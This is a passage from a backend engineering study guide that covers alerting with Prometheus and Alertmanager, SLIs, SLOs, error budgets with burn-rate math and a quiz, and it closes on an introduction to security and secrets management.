    Pending --> Firing : still true after 5 minutes
    Firing --> Inactive : condition clears, resolved notice sent
```

```mermaid
flowchart LR
    PromA["Prometheus A"] -->|"alerts"| AM["Alertmanager<br/>group, dedupe,<br/>inhibit, silence"]
    PromB["Prometheus B<br/>HA twin"] -->|"same alerts"| AM
    AM -->|"severity = page"| PD["PagerDuty / Opsgenie<br/>phone call to on-call"]
    AM -->|"severity = ticket"| Jira["Ticket queue<br/>Jira"]
    AM -->|"severity = info"| Slack["Slack channel<br/>alerts-checkout"]
    PD --> Human["On-call engineer<br/>opens the runbook"]
```

**💻 Example:** A Prometheus alert rule that fires when the checkout error rate is above 5% for 5 minutes:

```yaml
# rules/checkout.yml (loaded by Prometheus)
groups:
  - name: checkout-api
    rules:
      - alert: CheckoutHighErrorRate
        expr: |
          sum(rate(http_requests_total{job="checkout", status=~"5.."}[5m]))
            /
          sum(rate(http_requests_total{job="checkout"}[5m])) > 0.05
        for: 5m                              # must stay true 5 min, which ignores blips
        labels:
          severity: page
          team: payments
        annotations:
          summary: "Checkout 5xx error rate above 5% for 5 minutes"
          runbook_url: "https://wiki.example.com/runbooks/checkout-high-error-rate"
```

The Alertmanager config then decides **who** hears about it and **how**:

```yaml
# alertmanager.yml
route:
  receiver: slack-default                  # fallback for everything
  group_by: ["alertname", "team"]          # bundle similar alerts into one message
  group_wait: 30s                          # wait a bit to collect the group
  repeat_interval: 4h                      # re-notify if still firing
  routes:
    - matchers: ['severity="page"']
      receiver: pagerduty-oncall
receivers:
  - name: pagerduty-oncall
    pagerduty_configs:
      - routing_key: "<pagerduty-integration-key>"   # keep real keys in a secret store
  - name: slack-default
    slack_configs:
      - api_url: "<slack-webhook-url>"
        channel: "alerts-checkout"
```

**🌍 Real-world usage:**
- Rob Ewaschuk's widely shared essay *"My Philosophy on Alerting"* (written at Google) popularized the advice "page on symptoms, not causes". The Google SRE book repeats it.
- **PagerDuty**, **Opsgenie** (Atlassian), **Grafana OnCall**, **Splunk On-Call** and **incident.io** handle on-call schedules, escalation and phone calls.
- Many teams add a "**Watchdog**" or "dead man's switch" alert. It is **always** firing, and an external service pages you if it ever **stops** arriving. That proves the alerting pipeline itself is alive. The kube-prometheus project ships such a Watchdog alert.

**⚖️ Trade-offs:**

| Alerting style | When to use | Downside |
|---|---|---|
| Static threshold ("errors above 5% for 5m") | Simple start, clear meaning | Either too noisy or too slow, and misses slow leaks |
| Cause-based ("CPU above 90%") | Tickets/dashboards for capacity | Fires when users are fine, misses unknown failures |
| SLO burn-rate (#90) | Mature teams with SLOs | Needs SLOs and more complex rules |
| Anomaly detection (ML) | Seasonal traffic, unknown baselines | Hard to explain why it fired, and can be noisy |

**⚠️ Common mistakes:**
- Paging on causes (CPU, memory, one pod down) that don't affect users.
- No `for:` duration, so alerts flap on and off every minute.
- Alerts without a runbook, owner or clear action. The on-call person is left guessing at 3 a.m.
- Dumping everything into one Slack channel that everyone has muted.
- Never reviewing alerts. Noisy ones should be fixed, downgraded to tickets, or deleted.

**🎯 Remember:** Page on **symptoms users feel**. Make every page **actionable** with a **runbook**, route by severity, and ruthlessly delete noisy alerts, because a page nobody acts on is just noise.

**🔗 See also:** [#84 Metrics](#84-metrics), [#86 Monitoring](#86-monitoring), [#89 SLOs](#89-slos), [#90 Error Budgets](#90-error-budgets)

---


### 88. SLIs

> **In one line:** An SLI (Service Level Indicator) is a measured number that tells you how good your service feels to users, such as "the percentage of page loads that worked".

**🏠 Real-life analogy:** Think of a pizza delivery shop. Customers care that the pizza **arrives** (availability), arrives **within 30 minutes** (latency), and has the **right toppings** (correctness). The shop could track "% of orders delivered within 30 minutes". That's an SLI, because it measures what the customer experiences. "Oven temperature" is **not** an SLI. It's an internal cause, and the customer never sees it directly.

**❓ What problem does it solve?**
- Without SLIs, "is our service reliable?" turns into a debate based on gut feeling, or on the loudest complaint of the week.
- Teams often measure the wrong thing. "The server was up 100% of the month!" can be true while users got errors because the database was failing behind it.
- You can't set goals (SLOs, #89) or budgets (#90) until you have an **agreed, user-centered number** to measure.

**⚙️ How it works:**
1. **The formula.** An SLI is almost always a ratio:

   **SLI = good events ÷ valid events × 100%**

   - **Valid events** are the events that should count. You usually exclude health checks, synthetic traffic, and often client mistakes (4xx like "404 not found" for a mistyped URL).
   - **Good events** are the valid events that met the bar: succeeded, were fast enough, or were fresh enough.
   - This gives a number between 0% and 100%, where higher is better. That makes it easy to set targets on.
2. **Latency becomes a ratio too.** Instead of "average latency", use "**% of requests faster than 300 ms**". You can use two thresholds for more detail, e.g., 90% under 100 ms **and** 99% under 500 ms.
3. **Pick the SLI type that fits the kind of service.** This table follows the "SLI menu" from the Google SRE Workbook:

| Service type | SLI kind | Good events ÷ valid events | Example statement |
|---|---|---|---|
| API / website (request-response) | **Availability** | Non-5xx responses ÷ all valid requests | "99.95% of `/checkout` requests succeeded" |
| API / website | **Latency** | Requests served in under 300 ms ÷ all valid requests | "99% of searches returned in under 300 ms" |
| Data pipeline (batch/stream) | **Freshness** | Time (or reads) where data was updated less than 10 min ago ÷ total | "Dashboard data was under 10 min old 99% of the time" |
| Data pipeline | **Correctness** | Records with correct output ÷ records processed | "99.999% of invoices had correct totals (checked by a prober)" |
| Data pipeline | **Coverage** | Records processed ÷ records received | "99.9% of uploaded events were processed" |
| Storage (S3-like, backups) | **Durability** | Objects still readable later ÷ objects written | "All but a tiny fraction of written files can be read back" |
| Video / streaming | **Quality** | Playback minutes without rebuffering ÷ total minutes | "99% of watch time had no stalls" |

4. **Decide where to measure.** Each place sees a different slice of reality:

| Where | What it sees | Pros | Cons |
|---|---|---|---|
| **Client** (browser/app RUM) | The real user experience, including network and DNS | Most accurate to "what the user felt" | Noisy (bad Wi-Fi isn't your fault), delayed, harder to collect |
| **Load balancer** | Every request reaching your front door | One central place, includes app crashes (LB sees a 502) | Misses DNS/CDN/network problems before the LB |
| **Server** (app metrics) | Requests your code handled | Easiest, most detailed labels | If the server is dead, it reports nothing, so it can look perfect during an outage |
| **Synthetic probes** | Robot requests from outside | Works even with zero traffic at night | Not real users, and covers only scripted paths |

5. **Specification vs implementation.**
   - The **SLI specification** is what you care about, e.g., "the proportion of checkout requests that succeed".
   - The **SLI implementation** is how you measure it, e.g., "from load balancer logs, counting HTTP status < 500".
   - Write both down.

```mermaid
flowchart LR
    User["User's phone<br/>client-side SLI"] -->|"internet, DNS, CDN"| LB["Load balancer<br/>LB-side SLI"]
    LB --> Server["App server<br/>server-side SLI"]
    Server --> DB[("Database")]
    Probe["Synthetic prober<br/>probe SLI"] -->|"fake requests"| LB
```

```mermaid
flowchart TD
    All["All requests in 30 days<br/>1,050,000"] -->|"remove health checks<br/>and 4xx client errors"| Valid["Valid requests<br/>1,000,000"]
    Valid --> Good["Good: non-5xx<br/>999,200"]
    Valid --> Bad["Bad: 5xx<br/>800"]
    Good --> Result["SLI = 999,200 / 1,000,000<br/>= 99.92%"]
```

**💻 Example:** The same calculation in Python, and then in PromQL on real metrics:

```python
def sli(good: int, valid: int) -> float:
    """Percentage of valid events that were good."""
    return 100.0 * good / valid if valid else 100.0

total, health_checks, client_4xx, server_5xx = 1_050_000, 40_000, 10_000, 800
valid = total - health_checks - client_4xx          # 1,000,000
good = valid - server_5xx                            # 999,200
print(f"Availability SLI = {sli(good, valid):.2f}%") # Availability SLI = 99.92%
```

```text
# Availability SLI over 30 days: non-5xx / all requests
sum(increase(http_requests_total{job="checkout", status!~"5.."}[30d]))
  /
sum(increase(http_requests_total{job="checkout"}[30d]))

# Latency SLI: share of requests faster than 300 ms (needs an le="0.3" bucket!)
sum(increase(http_request_duration_seconds_bucket{job="checkout", le="0.3"}[30d]))
  /
sum(increase(http_request_duration_seconds_count{job="checkout"}[30d]))
```

**🌍 Real-world usage:**
- The terms SLI/SLO/SLA were popularized by Google's **Site Reliability Engineering** book (2016) and **The Site Reliability Workbook** (2018). The workbook's "SLI menu" is the basis of the table above.
- **Google Cloud**, **Datadog**, **Grafana**, **Nobl9** and **Dynatrace** have built-in SLO/SLI features. Open-source tools like **Sloth** and **Pyrra** generate Prometheus SLI rules from a short YAML file.
- Large consumer apps often measure SLIs at the **load balancer or edge**, and back them up with **RUM** for the real user view.

**⚖️ Trade-offs:**

| Choice | Pros | Cons |
|---|---|---|
| Few SLIs (1–3 per user journey) | Clear focus, and everyone understands them | May miss some failure types |
| Many SLIs | Covers everything | Diluted attention, and nobody knows which one matters |
| Ratio-based latency SLI ("% under 300 ms") | Easy to set targets and budgets on | You must pick a sensible threshold |
| Average latency | Easy to compute | Hides the slow tail, so it's a poor SLI |

**⚠️ Common mistakes:**
- Using **causes** as SLIs (CPU %, memory, "server is up") instead of user-facing outcomes.
- Using **average** latency instead of "% of requests under a threshold".
- Measuring only on the server, which reports "100% success" while it's down and receiving nothing.
- Counting user mistakes (4xx) as your failures. The opposite mistake is excluding errors that really are your fault, like your own overload rejections (429/503).
- Defining SLIs per server instead of per **user journey** ("search", "checkout", "upload photo").

**🎯 Remember:** **SLI = good events ÷ valid events**, about something users care about, measured as close to the user as is practical.

**🔗 See also:** [#84 Metrics](#84-metrics), [#86 Monitoring](#86-monitoring), [#89 SLOs](#89-slos), [#90 Error Budgets](#90-error-budgets)

---

### 89. SLOs

> **In one line:** An SLO (Service Level Objective) is the reliability goal you set for an SLI, like "99.9% of checkout requests succeed, measured over every 30 days".

**🏠 Real-life analogy:** A train company sets an internal goal: "95% of our trains arrive within 5 minutes of schedule, measured each month." That's the **SLO**. The measured punctuality number ("this month: 96.2% on time") is the **SLI**. The promise printed on your ticket, "if you're more than 30 minutes late, we refund you", is the **SLA**. It's a contract with a penalty. The company keeps its internal goal **stricter** than its refund promise so it rarely has to pay.

**❓ What problem does it solve?**
- Without an agreed target, developers want to ship fast and operations want everything frozen. Nobody can say what counts as "reliable **enough**".
- Teams either **over-invest** (chasing 100%, burning money and slowing launches) or **under-invest** (users leave, and nobody noticed the slow decline).
- An SLO turns reliability into a clear, measurable number that product, engineering and SRE all agree on. It's the basis for error budgets (#90) and smart alerts (#87).

**⚙️ How it works:**
1. **SLO = SLI + target + time window.** For example: "**99.9%** of valid `/checkout` requests return non-5xx, over a **rolling 30-day** window."
   - A **rolling** window means "the last 30 days, recalculated every minute". It's smooth, and it's the most common choice.
   - A **calendar** window means "this calendar month". It lines up with business reports, but the budget resets suddenly on the 1st.
2. **"The nines".** Each extra 9 allows **10× less** failure, and it usually costs **much** more to achieve:

| SLO | Nickname | Allowed "bad" time per 30-day month | Per year |
|---|---|---|---|
| 99% | two nines | 7.2 hours | 3.65 days |
| 99.9% | three nines | 43.2 minutes | 8.76 hours |
| 99.95% | three and a half nines | 21.6 minutes | 4.38 hours |
| 99.99% | four nines | 4.32 minutes | 52.6 minutes |
| 99.999% | five nines | 25.9 seconds | 5.26 minutes |

   The math for 99.9%: a 30-day month has 30 × 24 × 60 = 43,200 minutes, and 0.1% of that is **43.2 minutes**. For request-based SLOs, the budget is really a **number of failed requests** (0.1% of them). The minutes are an easy way to picture it.
3. **SLI vs SLO vs SLA:**

| | SLI (Indicator) | SLO (Objective) | SLA (Agreement) |
|---|---|---|---|
| What it is | A **measurement** | An internal **target** for the SLI | A **contract** with customers |
| Example | "99.95% of requests succeeded in the last 30 days" | "At least 99.9% over 30 days" | "At least 99.5% monthly, or you get a 10% service credit" |
| Who cares most | Engineers | Engineering + product | Customers, sales, lawyers |
| If missed | Just a number | Error budget policy kicks in (#90) | **Money back / penalties** |
| How strict | n/a | **Stricter** than the SLA | **Looser** than the SLO, giving you a safety margin |

4. **Why 100% is the wrong target:**
   - **Users can't tell the difference.** Their phone, Wi-Fi and mobile network fail more often than 99.99% of the time, so your extra nines vanish into that noise.
   - **Cost grows steeply.** Each extra nine needs more redundancy, more regions, more people and slower, more careful releases.
   - **No room for change.** With 100%, any deploy is a risk you're not allowed to take, so the product stops improving.
   - **It's impossible anyway.** Your dependencies (cloud, DNS, payment provider) aren't 100% either. The Google SRE book makes the same point: 100% is the wrong reliability target for basically everything.
5. **How to choose an SLO:**
   1. Start from **user journeys** that matter (log in, search, checkout), not from servers.
   2. Look at **history**. What did you actually achieve over the last 1–3 months? Set the first SLO near that.
   3. Ask what users and the business **need**. Checkout might need 99.95%, while "recommended for you" can be 99%.
   4. Check your **dependencies**. If a request needs three services in a chain, each at 99.9%, the best you can expect is about 99.9% × 99.9% × 99.9% ≈ **99.7%**.
   5. **Start a bit looser, then tighten.** Review every quarter. An SLO is a living agreement.
   6. Keep the **SLA looser** than the SLO, so you get warned internally before you owe customers money.

```mermaid
flowchart TD
    Measure["SLI measured<br/>e.g. 99.95% good requests, last 30 days"] --> CheckSlo{"Meets SLO 99.9%?"}
    CheckSlo -->|"yes"| Ship["Keep shipping features<br/>budget remains"]
    CheckSlo -->|"no"| Policy["Error budget policy<br/>focus on reliability"]
    Policy --> CheckSla{"Below SLA 99.5%?"}
    CheckSla -->|"yes"| Credit["Owe customers<br/>service credits"]
    CheckSla -->|"no"| Internal["Internal problem only<br/>no money lost yet"]
```

**💻 Example:** An SLO written down as code. The format is OpenSLO-style YAML. Tools like Sloth, Pyrra, Nobl9 and Datadog read similar specs and generate dashboards and alerts:

```yaml
apiVersion: openslo/v1
kind: SLO
metadata:
  name: checkout-availability
  displayName: Checkout API availability
spec:
  service: checkout
  description: "99.9% of checkout requests succeed (non-5xx) over a rolling 30 days"
  budgetingMethod: Occurrences          # count good vs total requests
  timeWindow:
    - duration: 30d
      isRolling: true
  indicator:                             # the SLI: good / total
    metadata:
      name: checkout-non-5xx-ratio
    spec:
      ratioMetric:
        counter: true
        good:
          metricSource:
            type: Prometheus
            spec:
              query: sum(rate(http_requests_total{job="checkout",status!~"5.."}[5m]))
        total:
          metricSource:
            type: Prometheus
            spec:
              query: sum(rate(http_requests_total{job="checkout"}[5m]))
  objectives:
    - displayName: Three nines
      target: 0.999                       # the SLO target
```

**🌍 Real-world usage:**
- **Google** uses SLOs across its services and teaches the practice in the free online SRE books.
- **Cloud providers** (AWS, Google Cloud, Azure) publish an **SLA** for each service. If monthly uptime falls below the promised number, customers receive **service credits** (a percentage of that service's bill). Their internal targets are stricter than those SLAs.
- Many companies (GitHub, Atlassian, Slack and others) run public **status pages** that show incidents and uptime history.
- SLO tooling: **Nobl9**, **Datadog SLOs**, **Grafana SLO**, **Google Cloud SLO monitoring**, **Sloth** and **Pyrra** (open source).

**⚖️ Trade-offs:**

| SLO choice | When it fits | Downside |
|---|---|---|
| Tight (99.99%+) | Payments, auth, core infrastructure other teams depend on | Very expensive. Slows releases, needs multi-region setups and heavy on-call |
| Moderate (99.9%) | Most user-facing APIs and websites | About 43 min/month of failure allowed, which users may notice during big incidents |
| Loose (99%–99.5%) | Internal tools, batch jobs, non-critical features | Users may get annoyed if it's used for important journeys |
| Rolling window | Smooth, always-current view | Harder to line up with monthly business reports |
| Calendar window | Matches billing and SLA periods | Budget resets suddenly, so it encourages risky behavior on the 1st |

**⚠️ Common mistakes:**
- Setting the SLO to **100%**, or copying "five nines" because it sounds impressive.
- Making the **SLA stricter than the SLO**, so you owe money before you even get an internal warning.
- Setting SLOs nobody acts on. Without an error budget policy (#90) they're just decoration.
- Having too many SLOs. A few per critical user journey is enough.
- Never revisiting SLOs as the product, traffic and user expectations change.

**🎯 Remember:** The **SLI** is the measurement, the **SLO** is the goal, and the **SLA** is the promise with penalties. Pick the **lowest** reliability that keeps users happy, never 100%, and keep the SLA looser than the SLO.

**🔗 See also:** [#87 Alerts](#87-alerts), [#88 SLIs](#88-slis), [#90 Error Budgets](#90-error-budgets), [#86 Monitoring](#86-monitoring)

---

### 90. Error Budgets

> **In one line:** An error budget is the amount of failure you're allowed. If your goal is 99.9% success, the remaining 0.1% is a budget you can "spend" on taking risks.

**🏠 Real-life analogy:** Think of a mobile data plan with 10 GB per month. If you stream videos and burn 8 GB in the first week, you have to be careful for the rest of the month. If it's the 25th and you still have 7 GB left, you can relax and use it. Nobody gets a prize for ending the month with unused data. An error budget works the same way, except the "data" is **allowed failures**.

**❓ What problem does it solve?**
- **The classic conflict.** Developers are rewarded for shipping features, and every change risks an outage. Operations is rewarded for stability, so the safest move is to block changes. Without a shared rule, every release turns into an argument.
- Error budgets make the decision **objective**. If budget remains, ship. If it's gone, fix reliability first.
- They also show **how urgent** a problem is. A burst of errors that will exhaust the month's budget in 2 days is an emergency. A tiny leak that would take 60 days is a ticket.

**⚙️ How it works:**
1. **The budget is 100% − SLO.**
   - With an SLO of 99.9% over 30 days, the budget is **0.1%**.
   - With 10 million requests a month, that's **10,000 failed requests** allowed. In time terms it's about **43.2 minutes** of full outage.
2. **Ways to spend it:**
   - incidents and bad deploys;
   - planned maintenance;
   - risky migrations;
   - experiments and chaos tests;
   - failures of your dependencies.

   Budget left over is permission to move **faster**: ship more often, or run that database upgrade.
3. **The error budget policy.** This is a written agreement, signed **in advance** by product, engineering and SRE leadership. For example:
   - **Budget remaining:** release normally.
   - **Budget exhausted** (SLO missed over the window): freeze risky feature launches, allow only critical bug fixes and security patches, and move engineers onto reliability work until the service is back within its SLO.
   - **One incident uses more than 20% of the budget in 4 weeks:** hold a mandatory postmortem with at least one top-priority fix. The example policy in the Google SRE Workbook uses this rule.
   - **Disagreements** escalate to a named leader (e.g., the CTO), so they don't get argued out in every meeting.
4. **Burn rate is how fast you spend.**
   - **Burn rate = observed error rate ÷ (1 − SLO)**
   - Burn rate **1** means you'd use exactly the whole budget by the end of the 30 days, which is fine.
   - Burn rate **2** means the budget is gone in 15 days.
   - With a 99.9% SLO, an error rate of 1.44% gives a burn rate of 1.44 ÷ 0.1 = **14.4**. The whole month's budget would be gone in 30 ÷ 14.4 ≈ **2.1 days** (about 50 hours).
   - **Budget consumed in a window = burn rate × (window length ÷ SLO period)**
     - 2% of the budget in 1 hour: burn rate = 0.02 × (720 h ÷ 1 h) = **14.4**
     - 5% of the budget in 6 hours: burn rate = 0.05 × (720 h ÷ 6 h) = **6**
     - 10% of the budget in 3 days: burn rate = 0.10 × (30 d ÷ 3 d) = **1**
5. **Multi-window, multi-burn-rate alerting** (from the Google SRE Workbook).

| Budget consumed | Long window | Short window | Burn rate | Action |
|---|---|---|---|---|
| 2% | 1 hour | 5 minutes | 14.4 | **Page** (fast burn, a real outage) |
| 5% | 6 hours | 30 minutes | 6 | **Page** (serious, sustained problem) |
| 10% | 3 days | 6 hours | 1 | **Ticket** (slow leak, fix this week) |

   - The **long** window proves the problem is significant, not a 10-second blip.
   - The **short** window (about 1/12 of the long one) proves it's **still happening**, so the alert stops soon after you fix it.
   - The alert fires only when **both** windows exceed the burn rate.
   - The result: you catch fast outages within minutes, catch slow leaks within hours, and get far fewer false alarms than with a single threshold.
6. **How it lines up incentives:**
   - **Developers** own the budget. Writing tests, using canary releases and adding feature flags protects **their own** ability to ship.
   - **SREs** don't have to say "no" based on opinion. The numbers decide.
   - **Product managers** can choose between spending the budget on a risky launch or saving it.
   - Ending every month with lots of budget left is a signal too. You may be **too cautious** and could ship faster.

Example month for an SLO of 99.9% with a 43.2-minute budget:

```mermaid
flowchart LR
    D1["Day 1<br/>100% left<br/>43.2 min"] -->|"bad deploy, 12 min"| D6["Day 6<br/>72% left"]
    D6 -->|"DB failover, 9 min"| D14["Day 14<br/>51% left"]
    D14 -->|"risky migration, 15 min"| D20["Day 20<br/>17% left"]
    D20 -->|"policy triggers"| D21["Day 21<br/>feature freeze,<br/>reliability work"]
    D21 -->|"small blip, 2.9 min"| D30["Day 30<br/>10% left<br/>4.3 min"]
```

```mermaid
pie title Where the 43.2-minute budget went (minutes)
    "Bad deploy" : 12
    "DB failover" : 9
    "Risky migration" : 15
    "Small blip" : 2.9
    "Unspent" : 4.3
```

```mermaid
flowchart TD
    Every["Every minute: compute error ratio<br/>over 5m, 30m, 1h, 6h and 3d"] --> Fast{"1h AND 5m burn rate<br/>above 14.4?"}
    Fast -->|"yes"| Page1["PAGE<br/>2% of budget gone in 1 hour"]
    Fast -->|"no"| Medium{"6h AND 30m burn rate<br/>above 6?"}
    Medium -->|"yes"| Page2["PAGE<br/>5% of budget gone in 6 hours"]
    Medium -->|"no"| Slow{"3d AND 6h burn rate<br/>above 1?"}
    Slow -->|"yes"| Ticket["TICKET<br/>slow leak"]
    Slow -->|"no"| Fine["All good<br/>keep shipping"]
```

**💻 Example:** First, the burn-rate math in Python:

```python
SLO = 0.999
PERIOD_H = 30 * 24                               # 720 hours in the SLO window

def burn_rate(error_ratio):                      # how many times faster than "just right"
    return error_ratio / (1 - SLO)

def budget_used(rate, window_h):                 # fraction of the 30-day budget used
    return rate * window_h / PERIOD_H

print(f"{burn_rate(0.0144):.1f}")                # 14.4  (1.44% of requests failing)
print(f"{budget_used(14.4, 1):.0%}")             # 2%    of the month's budget in 1 hour
print(f"{PERIOD_H / 14.4:.0f} hours left")       # 50 hours left at this pace
```

Then the same idea as Prometheus alert rules. The error ratios for each window come from recording rules (only `1h` is shown, and the others follow the same pattern):

```yaml
groups:
  - name: checkout-slo-burn
    rules:
      - record: job:slo_errors_per_request:ratio_rate1h
        expr: |
          sum(rate(http_requests_total{job="checkout",status=~"5.."}[1h]))
            / sum(rate(http_requests_total{job="checkout"}[1h]))
      # ...same recording rule for 5m, 30m, 6h (omitted)
      - alert: CheckoutErrorBudgetFastBurn        # 2% of budget in 1h
        expr: |
          job:slo_errors_per_request:ratio_rate1h > (14.4 * 0.001)
          and
          job:slo_errors_per_request:ratio_rate5m > (14.4 * 0.001)
        labels: { severity: page }
        annotations:
          runbook_url: "https://wiki.example.com/runbooks/checkout-slo-burn"
      - alert: CheckoutErrorBudgetSlowBurn        # 5% of budget in 6h
        expr: |
          job:slo_errors_per_request:ratio_rate6h > (6 * 0.001)
          and
          job:slo_errors_per_request:ratio_rate30m > (6 * 0.001)
        labels: { severity: page }
```

**🌍 Real-world usage:**
- Error budgets come from **Google SRE**. The SRE book (2016) introduced the idea, and the SRE Workbook (2018) added the example error budget policy and the multi-window, multi-burn-rate alerting table used above.
- **Sloth**, **Pyrra**, **Google Cloud SLO monitoring**, **Datadog SLOs**, **Grafana SLO** and **Nobl9** generate burn-rate alerts and "budget remaining" charts automatically from an SLO definition.
- Many teams use budget status as a **release gate**. A CI/CD pipeline checks "is there error budget left?" before allowing risky deploys.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Replaces opinion-based arguments with data | Needs good SLIs/SLOs first, or the budget is meaningless |
| Lets teams move fast when things are healthy | A policy without leadership support gets ignored in a crisis |
| Burn-rate alerts are precise and catch fast and slow problems | Multi-window rules are harder to understand and set up |
| Shows when you're over-investing in reliability | Small services with little traffic get noisy ratios (a few errors move the number a lot) |

**⚠️ Common mistakes:**
- Writing the error budget policy **after** the budget is already blown. Agree on it in advance.
- Treating a fully spent budget as a reason to punish people. It's a signal to rebalance work, not to blame anyone.
- Hoarding budget out of fear. Unspent budget at the end of every month means you could ship faster.
- Using a single short alert window. It's noisy and resets too slowly, so use the multi-window approach.
- Setting the SLO so tight that the budget is always exhausted and the team is permanently "frozen".

**🎯 Remember:** **Error budget = 100% − SLO.** Burn rate tells you how fast you're spending it. Page when 2% goes in 1 hour (14.4×) or 5% in 6 hours (6×). When the budget runs out, reliability work comes before new features.

**🔗 See also:** [#87 Alerts](#87-alerts), [#88 SLIs](#88-slis), [#89 SLOs](#89-slos), [#86 Monitoring](#86-monitoring)

---

### 🧠 Part 13 Quiz

**Q1. What is the difference between monitoring and observability?**
<details><summary>Show answer</summary>

Monitoring watches for **known** failure modes using predefined dashboards and alerts. It tells you **that** something is wrong. Observability is the property of a system that lets you ask **new** questions about **unknown** problems ("why is checkout slow only for Android users in Brazil?") by exploring rich, connected logs, metrics and traces. You need both.

</details>

**Q2. A teammate wants to add `user_id` as a label on the `http_requests_total` Prometheus metric so they can see traffic per user. What would you tell them?**
<details><summary>Show answer</summary>

Don't do it. Every unique label value creates a new time series, so millions of users means millions of series. That's high cardinality, which can crash Prometheus or explode the bill. Keep labels small and bounded (method, status, route template), and put per-user details in logs and traces, which are built for that.

</details>

**Q3. Your on-call engineer is paged every night because "CPU above 85%", but users never notice anything. What would you change?**
<details><summary>Show answer</summary>

Stop paging on causes and page on **symptoms** users feel, such as error rate, latency or SLO burn rate. Downgrade the CPU alert to a ticket or dashboard (or delete it). Make sure every remaining page is actionable and links to a runbook. That reduces alert fatigue, so real pages get attention.

</details>

**Q4. SLI vs SLO vs SLA: what's the difference? Give an example of each.**
<details><summary>Show answer</summary>

The **SLI** is the measurement, e.g., "99.95% of checkout requests succeeded in the last 30 days". The **SLO** is the internal target, e.g., "at least 99.9% over 30 days". The **SLA** is the contract with customers and has penalties, e.g., "at least 99.5% monthly or a 10% service credit". The SLA should be looser than the SLO.

</details>

**Q5. Your service has a 99.9% availability SLO over 30 days. Right now 1.44% of requests are failing. How bad is this, and what should happen?**
<details><summary>Show answer</summary>

The error budget is 0.1%, so the burn rate is 1.44% ÷ 0.1% = **14.4**. At that pace the whole month's budget (about 43.2 minutes' worth) is gone in about 2 days, and 2% of it is consumed every hour. That matches the "fast burn" rule from the SRE Workbook, so it should **page** the on-call engineer immediately. If the budget runs out, the error budget policy freezes risky launches until reliability is restored.

</details>


## Part 14 — Security

Up to now we have built systems that are fast, scalable and reliable. But a system that leaks its customers' data, or lets a stranger delete the database, is a failed system no matter how fast it is. Security is not one feature you bolt on at the end; it is a habit you apply at every layer. This part teaches the building blocks every backend engineer must know: keeping secrets secret, controlling who can do what, logging people in safely with OAuth and JWTs, and encrypting data both while it travels and while it sits on disk.

**The CIA triad — the three goals of security** (nothing to do with the spy agency):

| Goal | Plain meaning | What a failure looks like | Typical defenses |
|---|---|---|---|
| **Confidentiality** | Only the right people can *read* the data | A hacker downloads all your users' emails and addresses | Encryption, access control (IAM), secrets management |
| **Integrity** | Data is not *changed* secretly or by the wrong people | An attacker changes a bank transfer from $10 to $10,000 on the way | Digital signatures (JWT), hashes, TLS, audit logs |
| **Availability** | The system is *up* when real users need it | A DDoS (flood of fake traffic) knocks your site offline | Redundancy, rate limiting, DDoS protection, backups |

**Defense in depth** means stacking several independent layers of protection, like a castle with a moat, a wall, guards at the door and a locked treasure room. If one layer fails (and one eventually will), the next layer still stops or slows the attacker.

```mermaid
flowchart LR
    Attacker["Attacker on<br/>the internet"]
    subgraph EdgeLayer["1. Edge"]
        CDN["CDN + WAF<br/>DDoS protection, TLS"]
    end
    subgraph NetworkLayer["2. Network"]
        FW["Firewalls, private subnets,<br/>security groups, mTLS"]
    end
    subgraph AppLayer["3. Application"]
        AppSvc["AuthN / AuthZ, OAuth, JWT,<br/>input validation, secrets"]
    end
    subgraph DataLayer["4. Data"]
        Store[("Encryption at rest, KMS,<br/>least-privilege DB users, backups")]
    end
    Attacker --> CDN --> FW --> AppSvc --> Store
```

A famous checklist is the **OWASP Top 10** (OWASP = Open Worldwide Application Security Project, a non-profit). It lists the most critical web application security risks and is refreshed every few years. In the 2021 edition, number one was *Broken Access Control* (users doing things they should not be allowed to do), followed by *Cryptographic Failures* and *Injection*. Many topics in this part map straight onto that list, so it is a great checklist for code reviews and interviews.

---

### 91. Secrets Management

> **In one line:** Secrets management means keeping your passwords and keys in a locked, logged safe instead of writing them on a sticky note inside your code.

**🏠 Real-life analogy:** Imagine an office where the key to the cash box is taped under every desk "so it's easy to find". Anyone who walks in — a cleaner, a visitor, a thief — can grab it. A sensible office keeps keys in a locked key cabinet, writes down who borrowed which key and when, and changes the locks regularly. A secret manager is that key cabinet for your software.

**❓ What problem does it solve?**
A **secret** is any piece of data that grants access: API keys (e.g., a Stripe or OpenAI key), database passwords, private keys (for TLS, SSH, or signing JWTs), OAuth client secrets, and access tokens. Without proper management:
- Secrets get **hardcoded** in source code and **committed to Git**. Once pushed to a public repository, automated bots that constantly scan GitHub can find and abuse leaked cloud keys **within minutes** — often to start expensive crypto-mining servers on your bill.
- Even private repos are risky: everyone with read access (contractors, ex-employees, a stolen laptop) gets the production keys. In the well-documented **Uber 2016 breach**, attackers got into a private GitHub repository used by Uber engineers, found AWS credentials in it, and used them to download personal data of about 57 million riders and drivers.
- Nobody knows who used which secret, and changing ("rotating") a password means editing and redeploying many apps by hand, so it never happens.

**⚙️ How it works:**
1. **Never hardcode, never commit.** Code reads secrets from the *outside* at runtime. Local `.env` files go into `.gitignore`.
2. **Environment variables (basic level).** Simple and supported everywhere. But env vars can leak through crash reports, debug pages, logs that print the config, and child processes, and they give you no audit trail or rotation.
3. **Secret managers (proper level).** A central, encrypted store with access control, an audit log ("service X read secret Y at 10:42"), versioning and rotation. Popular ones: **HashiCorp Vault**, **AWS Secrets Manager**, **GCP Secret Manager**, **Azure Key Vault**.
4. **Identity instead of "secret zero".** To read secrets, the app must prove who it is. If that needs *another* password, you are back to square one (the "secret zero" problem). The fix: the app uses its platform identity — an IAM role on AWS, a workload identity on GCP/Kubernetes (see #92) — which needs no stored password.
5. **Fetch at startup, keep in memory.** The app loads its secrets when it boots, never writes them to disk or logs, and refreshes them periodically.
6. **Rotation.** Change secrets on a schedule and automatically. AWS Secrets Manager, for example, can rotate an RDS database password using a Lambda function; apps simply fetch the latest version.
7. **Dynamic, short-lived secrets (best level).** Vault's database secrets engine can create a brand-new database user for each app instance with a *lease* (time-to-live, e.g., 1 hour) and delete it when the lease ends. A leaked credential dies on its own.
8. **Kubernetes Secrets warning.** By default they are only **base64-encoded**, which is *encoding, not encryption* — anyone who can read the Secret object or an etcd backup can decode it in one command. Turn on **encryption at rest for etcd** (ideally with a KMS provider), lock down who can read Secrets with RBAC, and use the **External Secrets Operator** (syncs secrets from Vault/AWS/GCP into the cluster) or **Sealed Secrets** (encrypts secrets so they are safe to store in Git; only the controller inside the cluster can decrypt them).
